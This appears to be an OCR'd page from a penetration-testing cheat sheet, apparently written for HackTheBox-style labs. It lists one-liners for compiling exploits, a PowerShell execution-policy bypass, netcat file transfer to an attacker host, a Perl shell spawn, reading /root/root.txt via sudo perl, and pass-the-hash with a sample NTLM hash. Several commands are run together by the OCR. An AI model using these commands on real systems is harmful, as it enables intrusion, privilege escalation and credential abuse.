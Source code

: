 # **MISC**

Compiling Exploits

```
gcc -o exploit exploit.c#Compile C code, add –m32 after ‘gcc’ for compiling 32 bit code on 64 bit Linuxi586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe​Cross compilingCompile Windows exploit in Linuxi686-w64-mingw32-gcc 18176.c -lws2_32 -o 18176.exe​Compile Python script to executablewine ~/.wine/drive_c/Python27/Scripts/pyinstaller.exe --onefile exploit.py
```

Packet Inspection

```
tcpdump tcp port 80 -w output.pcap -i eth0​
```

Powershell bypass

```
Powershell: powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1​
```

Window Exploit Suggester

```
 ./windows-exploit-suggester.py -d 2019-07-20-mssb.xls -i system.txt
```

Finding Auxiliary

```
 ls /usr/share/nmap/scripts/ | grep smb | grep vuln​
```

Netcat

```
From attacker to targetAt targetnc -lvp 6969 > blah.txtAt attacker (method 1)nc x.x.x.x 6969 < blah.txtAt attacker (method 2)cat blah.txt | nc x.x.x.x 6969
```

Perl Exploit

```
Perl Exploitperl —e 'exec "/bin/sh";'sudo perl -F: -lane 'print $F[0]' /root/root.txt
```

Awk

```
Remove duplicate lines:awk '!seen[$0]++' file
```

Searchsploit

```
searchsploit --overflow --exact --mirror 21234​ searchsploit --overflow --exact Gwolle
```

Firewall Rule Enable

```
firewall rule enableufw allow from victimip to any port 80,443 proto tcp​
```

Wordlist Creation

```
Wordlist creation:cewl -w cewl-forum.txt -e -a http://forum.bart.htb
```

PASS the HASH

```
​Pass the hash :pth-winexe -U jenkins/administrator //ip cmd.exepth-winexe -U jenkins/administrator%password //ip cmd.execrackmapexec​ pth-winexe --user=jeeves/administrator%aad3b435b51404e eaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 --system //10.10.10.63 cmd.exe​
```

Share folder Windows to linux

mount -t fuse.vmhgfs-fuse .host:/ /mnt/hgfs -o allow\_other
